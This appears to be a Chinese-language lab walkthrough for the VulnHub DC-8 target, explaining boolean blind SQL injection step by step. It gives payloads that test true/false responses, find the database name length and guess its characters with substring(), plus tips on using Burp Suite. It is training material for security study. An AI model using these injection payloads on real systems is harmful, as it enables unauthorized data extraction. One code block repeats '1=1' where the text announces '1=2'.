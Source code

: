 构造语句，进行数字型的布尔判断，这里使用`and 1=1`，表示正确的

```shell
http://192.168.10.12/?nid=1 and 1=1--+
#--+表示注释后面的内容
#之前报错时，数据库的语句已经出现，为放置后面还有语句判断，使用注释
```

![](D:\stu\vulnhub\DC靶场\pic-8\7.jpg)

## 布尔盲注

再次构造语句，使用`and 1=2`，表示会有错误的

```
http://192.168.10.12/?nid=1 and 1=1--+
```

![](D:\stu\vulnhub\DC靶场\pic-8\8.jpg)

综上比较，可以确定，在正确的时候，会有回显`Welcome to DC-8`

也就是说，这里并不会返回所谓的查询数据，那么可以根据这个指定的回显字符，来去进行盲注操作

首先确定正确返回的回显所在的`html`代码位置，以便在`burp`中，方便定位

![](D:\stu\vulnhub\DC靶场\pic-8\9.jpg)

确定当前数据库的长度，构造语句，这时候建议开始使用`burp`，因为后续要猜测的字符太多，不能说一个个去进行操作，当然，也可以自己编写脚本去请求

这里在`kali`中使用`burp`，其版本是社区版本，有很多功能进行限制，不过还是挺建议使用这个的，因为在`OSCP`考试中，是只能使用社区版本的

并且下面的语句，最好进行URL编码，只需要对空格等进行处理即可，其余字符不要编码

```shell
/?nid=1 and if(length(database())=4,1,0)--+

#拆解，首先length()，是确定长度
#database()，是当前数据库名称
#所以，加在一起就是length(database())，统计数据库的长度

#使用if进行判断，if的格式是 if(条件，条件判断正确执行，条件判断错误执行)
#所以这里总体语句就是，当前数据库的长度为4时，返回结果为1，否则为0

#结合前面的and，就会确定总体是否正确
#当然，这里长度为多少可以自行调节，建议从2开始，一般不会有数据库名称只有一个字符
```

![](D:\stu\vulnhub\DC靶场\pic-8\10.jpg)

确定当前数据库长度为4

![](D:\stu\vulnhub\DC靶场\pic-8\11.jpg)

再次使用函数`substr()`或者`substring()`，用这函数猜测数据库每一位的字符是什么

```shell
/?nid=1 and if(substring(database(),1,1)='s',1,0)--+
#substring(数据，字符位置，截取长度)，这里表示截取数据库的第1个字符开始截取，截取长度为1，也就是截取单个字符，然后进行判断是否为 s
```
